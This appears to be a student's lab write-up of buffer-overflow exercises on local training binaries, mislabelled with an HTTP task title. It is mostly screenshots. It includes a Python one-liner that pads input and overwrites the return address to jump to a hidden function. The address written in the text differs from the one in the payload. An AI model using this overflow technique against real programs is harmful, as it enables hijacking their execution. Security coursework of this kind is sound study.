 # Task 4.1: Exploring HTTP Messages

**Student ID:** 22110038
**Name:** Phan Triệu Huy 

## Bof1
create file bof1.o:
![image](https://github.com/user-attachments/assets/5a369e7a-5ba9-4813-b01a-41db13fe3b13)

and use disas main for get address's ebp of secretFunc():
![image](https://github.com/user-attachments/assets/c42ca2c6-3a02-46fa-9851-2fb81f316fa0)

=> 0x0804846b
after run code python ( (python -c "print('a'*204+'\x66\x84\x04\x08')") | ./bof1.o 1 )to add address:
![image](https://github.com/user-attachments/assets/fe7f508e-3276-4933-8046-51a3c5590c23)

![image](https://github.com/user-attachments/assets/666bb1c2-9742-4b80-8854-af6c4dadf66c)

## Bof2
create file bof2.o like bof1.o:
![image](https://github.com/user-attachments/assets/be5ffa0d-df7a-49e0-89ee-301d01dfe95a)

and after run code python:
![image](https://github.com/user-attachments/assets/2e0e2e89-0377-4487-9784-e6a2c567c6f3)

## Bof3
Do the same with bof1, bof2:
create file bof3.o and get address's ebp of sup:
![image](https://github.com/user-attachments/assets/8d45503a-a010-463e-a190-02ba22a30dd6)

ebp address of shell:
![image](https://github.com/user-attachments/assets/72fe05e0-92f9-4a15-b922-57388346f5ae)

and the result:
![image](https://github.com/user-attachments/assets/65319b2b-715b-4e0c-af9c-10622cf33494)










